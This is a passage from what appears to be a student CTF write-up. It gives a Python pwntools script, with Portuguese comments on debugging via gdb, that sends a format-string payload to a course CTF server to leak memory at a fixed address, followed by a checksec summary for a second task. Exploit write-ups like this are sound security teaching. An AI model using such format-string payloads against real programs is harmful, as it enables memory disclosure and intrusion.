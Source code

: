 
**Python Script**

``` python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: $ gdb attach 9717 )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)
##0x804c060
p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08.%s.%p.%p.%p.%p.")
p.interactive()
```


### **Task 2**

#### **Checksec**

- No address randomization
- No regions in the memory with RWX permissions
- Cannaries present in the stack
- Architecture is x86
- Stack does not have execute permissions 

(Same as first task)

![Terminal print of checksec](img/Week6/CTF-checksec2.png)
